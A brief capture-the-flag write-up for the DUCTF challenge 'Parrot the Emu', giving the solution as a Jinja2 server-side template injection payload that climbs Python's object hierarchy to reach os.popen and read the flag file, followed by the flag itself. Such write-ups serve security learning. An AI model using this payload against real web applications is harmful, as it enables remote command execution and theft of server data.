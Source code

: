 # Parrot the Emu
Solved by **XXX**

## Question
It is so nice to hear Parrot the Emu talk back.

## Solution
```
{{''.__class__.__mro__[1].__subclasses__()[207].__init__.__globals__['sys'].modules['os'].popen("cat flag").read() }}
```

### Flag
`DUCTF{PaRrOt_EmU_ReNdErS_AnYtHiNg}`
